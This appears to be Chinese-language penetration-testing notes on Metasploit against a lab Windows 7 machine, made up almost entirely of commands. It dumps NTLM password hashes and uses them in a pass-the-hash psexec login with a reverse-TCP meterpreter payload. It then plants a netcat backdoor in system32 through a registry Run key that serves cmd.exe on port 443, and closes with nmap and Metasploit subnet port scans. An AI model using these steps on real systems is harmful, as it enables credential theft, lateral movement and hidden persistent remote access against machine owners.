 ## 使用hash值登录系统

```
meterpreter > hashdump
	xiaoxiao:1001:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::

use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhosts 192.168.100.129
set lhost 192.168.100.143
set SMBUser xiaoxiao
set SMBPass aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
set SMBDomain WORKGROUP   //局域网中SMBDomain都是WORKGROUP如果是域用户需要配置域名称。
run
```

## 配置一个后门程序,上传nc到Win7## 

```
meterpreter > upload /usr/share/windows-binaries/nc.exe C:\windows\system32
meterpreter > reg setval -k HKLM\software\microsoft\windows\currentversion\run -v lltest_nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e cmd.exe'
	注册表添加启动项执行nc反弹shell命令   -L 表示用户退出连接后重新进行端口侦听 -d 后台运行 -p 指定端口 -e prog 程序重定向，一旦连接，就执行
shutdown -r -f -t 0
	重启生效 -r 重启 -f 强制 -t 时间 0表示立刻

win7	
	netstat -an
		TCP    0.0.0.0:443            0.0.0.0:0              LISTENING
		
msf6 > connect 192.168.1.56 443
nc -v 192.168.1.56 443

```

## Metapsloit 端口扫描

```
运行的Nmap扫描是一个SYN扫描
nmap -v -sV 192.168.100.0/24 -oA xiaoxiao
	
通过eth0接口在整个子网上运行同一扫描，查找端口80。
use auxiliary/scanner/portscan/syn
set INTERFACE eth0
set PORTS 80
set RHOSTS 192.168.100.0/24
set THREADS 50
run

加载'tcp'扫描器
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.100.140
run
```

